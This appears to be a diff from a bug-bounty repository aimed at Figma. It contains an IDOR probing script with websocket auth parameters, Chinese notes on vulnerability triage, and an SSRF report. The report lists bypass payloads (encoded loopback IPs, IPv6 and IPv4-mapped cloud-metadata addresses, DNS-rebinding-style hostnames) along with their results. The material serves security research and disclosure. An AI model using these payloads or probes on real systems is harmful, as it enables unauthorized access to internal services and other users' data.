

init

Changed region(s): [[0.1875, 0.3422, 0.8125, 0.56], [0.7812, 0.6533, 0.9688, 0.9956], [0.1875, 0.9956, 0.2188, 1.0]]

diff --git a/_figma_hunt/_lg_folder_idor.py b/_figma_hunt/_lg_folder_idor.py
@@ -21,18 +21,18 @@ UA = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like 
 HASH = "ab" * 16
 
 def lg_url(client_url="bv2nMIdFf4u3dESGail4sm"):
-    return (f"wss://www.figma.com/api/livegraph?pv=1&pr=dad80c10603319f8&pt=1786432687"
-            f"&ph=dnoflh97wkg6_cF_nypMbd9rtfZmF2KhdefK4gshdaM"
-            f"&userId={B_UID}&anonUserId={B_ANON}"
-            f"&clientType=web&commitHash={COMMIT}"
+    return (f"wss://www.figma.com/api/livegraph?pv=1&pr=251c5be83e6853e5&pt=1786072093"
+            f"&ph=sb9dUg8LQV0WGY29b-j8nggmhGX8TR2vghWs-rNzbds"
+            f"&userId={B_UID}&anonUserId="
+            f"&clientType=web&commitHash=5848603c50c1ee154ea6a1fe5ee3aab3791c5b48"
             f"&preload=%7B%7D&requestedProtocolVersion=2"
             f"&clientUrl=https%3A%2F%2Fwww.figma.com%2Ffile%2F{client_url}"
             f"&connectionType=initial&reconnect=0")
 
 def auth():
     return {"messageType": "auth", "clientType": "web",
-            "args": {"userId": B_UID, "anonymousUserId": B_ANON},
-            "tags": {"clientType": "web", "commitHash": COMMIT,
+            "args": {"userId": B_UID, "anonymousUserId": None},
+            "tags": {"clientType": "web", "commitHash": "81855c2bc7c604648169c4e4333f43579bfa7464",
                      "clientUrl": "https://www.figma.com/files"},
             "clientRequestedVersion": 2}
 

diff --git a/经验/全局经验/经验学习13.md b/经验/全局经验/经验学习13.md
@@ -16,7 +16,7 @@
 ## 二、筛选层（什么才算漏洞）
 
 2. **注入三元组 = 真正意义上的漏洞**：注入**什么**（载体：参数/请求体字段/header/cookie/文件名/URL/模板字段/JSON键名）→ 注入到**什么地方**（消费点：SQL查询/命令执行/模板引擎/文件路径拼接/HTTP请求构造SSRF/日志/响应头/正则/反序列化）→ 导致**什么问题**（后果：数据泄露篡改/RCE/SSRF/任意文件读写/响应头注入/日志伪造）。权限/逻辑类是"判断遗漏"（加个 if 就修好、影响单点）；注入类是"信任了不该信任的输入"（影响执行层/数据层，修复要重构），才是高危。**判定标准：发现必须能写成完整三元组，写不出的都是小儿科，不值得报告。**
-3. **公开性检查（提交前必做）**：判断查到的东西是否公开——公开的发现毫无意义（by design/必 dup/对面早知道）。检查五问：① 该数据是否无需任何凭据即可获取（匿名直连/公开页面/公开 API）？② 目标对象本身是否被 owner 设为公开（公开分享/公开文件）？③ 其他用户/匿名用户是否本就有权查看（有 = 不是漏洞）？④ 数据是否出现在产品页/营销页/文档等设计公开渠道？⑤ 获取路径是否需要特殊知识（deep link/未公开参数）——若公开渠道同样能拿到，特殊路径也不构成泄露。任一为"公开"→无意义，不报告。PlanByFileKey 匿名计费数据被关 Informative 的教训：提交前未做公开性检查。
+3. **公开性检查（任何测试链的绝对第一动作）**：判断查到的东西是否公开——公开的发现毫无意义（by design/必 dup/对面早知道）。**执行时机：测试链启动时的第 0 步**，不是提交前——匿名访问对照（私有对象匿名 403 vs 公开对象匿名 200），公开 → 立即终止整条链零浪费。检查五问：① 该数据是否无需任何凭据即可获取（匿名直连/公开页面/公开 API）？② 目标对象本身是否被 owner 设为公开（公开分享/公开文件）？③ 其他用户/匿名用户是否本就有权查看（有 = 不是漏洞）？④ 数据是否出现在产品页/营销页/文档等设计公开渠道？⑤ 获取路径是否需要特殊知识（deep link/未公开参数）——若公开渠道同样能拿到，特殊路径也不构成泄露。任一为"公开"→无意义，不报告。Foundry 链教训（2026-08）：B 对 A 的 Make 文件 sandbox 200 看似分支差异，实际文件本身公开分享（匿名 200 vs 私有文件匿名 403），整条链 by design；PlanByFileKey 匿名计费数据被关 Informative 同理——公开性检查必须前置到第 0 步。
 4. **不做没有参考意义的东西**：禁止枚举接口（拿清单逐个打）、禁止枚举 ID（猜值/遍历）、禁止无确定性来源的探测。每个动作必须同时满足：① 确定性来源（JS 调用定义/真实抓包/已有日志证据）；② 预定义目标结果（能写成三元组或业务状态变更）。缺任一即不做，立即切换方向。
 
 ## 三、判断层（解读响应与校验）

diff --git a/_figma_hunt/foundry_ssrf_report.md b/_figma_hunt/foundry_ssrf_report.md
@@ -67,7 +67,7 @@ Body: {"sboxdUrl":"<from step 1>","path":"code/src/code/DL0.txt","options":{"con
 → SSE stream, content field (base64) decodes to: "User-agent: *\nDisallow: /deny\n"
 ```
 
-## Evidence
+## Evidence (第一轮, 2026-08-12)
 
 | Target URL | Result | Latency | Meaning |
 |---|---|---|---|
@@ -83,6 +83,20 @@ Body: {"sboxdUrl":"<from step 1>","path":"code/src/code/DL0.txt","options":{"con
 - Literal private IPs are rejected by a pre-check, but **hex/octal-encoded IPs pass the pre-check** and reach the real connection path (1.5s connect timeout) — only the network layer isolates them.
 - Cloud metadata (AWS IMDS, GCP, ECS) is **not reachable** from the fetch environment.
 - Arbitrary **public** URLs are fetched server-side with full response exfiltration.
+
+## Evidence (第二轮深化, 2026-08-17: IPv6/编码/内部域名/回显语义)
+
+| Test | Result | Meaning |
+|---|---|---|
+| `httpbin /status/401|403|500` | EMPTY, path absent | **非 200 响应不落盘** — 回显仅限 200 响应(函数层行为) |
+| `http://[::1]/`、`[::1]:8080`、`[fd00::1]`、`[fe80::1]` | EMPTY (2.2s timeout) | IPv6 同样被网络层隔离 |
+| `http://[::ffff:169.254.169.254]/...`、`[0:0:...:ffff:169.254.169.254]` | EMPTY | IPv4-mapped 形式隔离 |
+| `http://2130706433/`、`http://127.1/`、`http://0177.0.0.1/` | EMPTY | decimal/short/octal 编码隔离(连接层) |
+| `http://169.254.169.254.sslip.io/...` | EMPTY | DNS 变体隔离(按解析后 IP 生效) |
+| `https://<sboxd>.makeproxy-c.figma.site/`(自身沙箱) | 0.9s 快速 EMPTY | 连接成功返回 401 被丢弃 — 公网路径行为,无内网证据 |
+| `https://<app>.makeproxy-c.figma.site/`(自身应用) | 0.7s 快速 EMPTY | 同上(匿名直连亦 403) |
+
+**第二轮结论**: 网络层隔离完整覆盖 IPv4/IPv6/编码/DNS 变体/内部域名,无升级路径; 回显仅限 200 响应(非 200 静默丢弃)。内部域名快速返回 = fetch 环境走公网路径(与匿名直连行为一致)。SSRF 真实影响面 = 任意公网 URL 的 200 响应内容回显 (IP allowlist/geo/WAF 绕过面)。
 
 ## Impact
 

diff --git a/经验/全局经验/经验学习索引.md b/经验/全局经验/经验学习索引.md
@@ -18,6 +18,7 @@
    - [经验学习9](经验学习9.md)：权限绕过穷尽测试复盘：Figma B→A 文件越权（案例+执行规范）。
    - [经验学习11](经验学习11.md)：多域共享身份架构 token 链与服务面测绘（Superhuman×Grammarly 实战）。
    - [经验学习12](经验学习12.md)：SSRF 任意 URL 注入载体选择与校验链逆向。
+   - [经验学习14](经验学习14.md)：多账号 Cookie 身份绑定验证（header 伪装假阳性判定）+ 403 消息演化分层图 + IDOR 三级确认（Figma ai_chat/gateway token 实战收束）。
 
 ## 2. 统一推理模板
 
